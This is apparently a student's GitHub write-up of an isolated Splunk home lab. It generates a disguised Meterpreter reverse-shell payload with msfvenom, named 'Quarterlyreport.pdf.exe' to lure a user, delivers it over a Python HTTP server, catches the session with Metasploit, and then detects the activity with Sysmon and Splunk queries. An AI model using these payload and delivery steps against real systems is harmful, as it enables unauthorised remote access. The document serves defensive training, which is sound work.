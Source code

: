 Objective

This Splunk Lab project was created to establish a controlled environment for simulating and detecting cyber attacks. The primary focus was to ingest and analyze logs within a SIEM, generating test telemetry to mimic real-world attack scenarios.  
Skills Learned

[Bullet Points - Remove this afterwards]
Log Analysis
Advanced understanding of SIEM concepts and practical application.
Proficiency in analyzing and interpreting network logs.
Ability to generate and recognize attack signatures and patterns.
Enhanced knowledge of network protocols and security vulnerabilities.
Development of critical thinking and problem-solving skills in cybersecurity.
Tools Used
[Bullet Points - Remove this afterwards]

Security Information and Event Management (SIEM) system for log ingestion and analysis.
Network analysis tools (such as Wireshark) for capturing and examining network traffic.
Telemetry generation tools to create realistic network traffic and attack scenarios.
Steps
drag & drop screenshots here or use imgur and reference them using imgsrc

Every screenshot should have some text explaining what the screenshot is about.

Example below.

Spin up TWO VMs, One being Windows and the other being Kali Linux. On both VMs set the network adapter to the Internal Network setting while making both VM IPs static to the same network. This network scheme was selected for security reasons to keep the VMs from being accessible from the open web, while also being able to communicate with each other.
The IP's in this lab are: Windows VM - 192.168.33.2, Kali VM - 192.168.33.3 
For this lab, we will open up the RDP port(3389) and turn off the firewall on our Windows VM

<img width="583" alt="image" src="https://github.com/user-attachments/assets/5b423ff8-596e-4f76-95a8-854c507c9b36" />

Ref 1: Virtual Box Settings

To set up our blue team environment on our Windows VM, we will be configuring Sysmon on the endpoint to gather event logs and send them directly to our Splunk instance, also installed on our Windows machine.
We did this by allocating a Sysmon config file from Github, copying it to the directory containing the Sysmon application, and running the command ./sysmon64.exe -i sysmonconfig.xml in Powershell
Installing Sysmon will enhance our ability to capture system events (Since I don't want to expose these VMs to the open web, I downloaded the config file from my main PC, enabled bidirectional drag and drop on the VM, and copied the file into the box.) 
I also had to install the Sysmon addon for Splunk and create the "endpoint" index. This index points to our Sysmon config file, allowing Sysmon to send logs to our Splunk instance
SPLUNK SETUP



KALI SETUP

Created Malware payload msfvenom -p windows/x64/meterpreter_reverse_tcp lhost-192.168.33.3 -f exe Quarterlyreport.pdf.exe
-p chooses the payload we want to use provided by the Metasploit tool 
lhost determines where this reverse shell will remote back to, we chose the IP of the red team box
-f will decide the file name, we will name it Quarterlyreport.pdf.exe to entice the "end user" to click on it.


![Screenshot 2025-03-12 072905](https://github.com/user-attachments/assets/17e8deb8-90ab-4509-b982-a718275314f4)

Now we need to deliver the payload to the end user.
To do so, we will host an HTTP Python server by running the command found below inside the directory where the payload was saved to
python3 -m http.server 9999 
On our Windows machine we will search the IP of our Kali box followed by ":9999" which is the port designated in our Python command 

![executing the file](https://github.com/user-attachments/assets/b5601151-d80e-4cca-9425-6304a0f62d4e)

After searching this, it will take us to the directory in our Kali VM. We will then download and execute the malicious file we created.
We see on our Kali terminal that a GET request was logged
After running "netstat -anob" on the Windows VM we see a network connection established to our Kali box 

ran multi/handler on msf exploit 
Now that we have successfully delivered and installed our malware, it's time to carry out the exploitation phase of our attack.
We do this by opening the msfconsole on our Kali VM and configuring the handler by setting the payload to "windows/x64/meterpreter/reverse_tcp" and setting our local IP and the port we want the exploit to use on the victim machine
After configuring the handler, we insert the exploit into the CLI to initiate the reverse TCP handler
The session has been opened with our victim machine

![Updated handler](https://github.com/user-attachments/assets/1106b392-a05b-4a9f-a284-8d72a3783490)

Now we will run the following commands to open up a shell and create network traffic to analyze in our Splunk instance
shell, netstat, ipconfig, net user, net group

Time to do some threat hunting in our Splunk instance
We will start by searching for our index indicated in our configuration files for Sysmon "endpoint"
I have a suspicion that the 192.168.33.3 IP we are sending traffic to is a threat, let's filter traffic that is being sent to that IP 

![Screenshot 2025-03-10 211850](https://github.com/user-attachments/assets/63eb2f00-f37e-44f8-a4ad-3107ed305bd4)

After analyzing the event, we see that one of the events has a suspicious .exe file with two file extensions in the name
Luckily, we are running Sysmon, which allows the SourceProcessGUID, if we filter by this field, we can display all events related to this suspicious file 

![SIEM SourceProcessGUID](https://github.com/user-attachments/assets/d41747eb-220b-4aaf-a606-6870af1f8ff4)

We queried the SourceProcessGUID and organized the output with the table command to display the Time, ParentImage, Image, and Command Line

![Final SIEM](https://github.com/user-attachments/assets/e96640cd-65a9-40e6-a0a4-0e3663bc74e8)

Upon analysis, we see commands being executed affiliated with an IP that is not the host's, sound the alarms.
In a real life scenario, this endpoint would be immediately quarantined from the rest of the network to mitigate damage from spreading.
The IP would also be blacklisted and the firewall reconfigured to prevent this suspected RAT from accessing the network again.

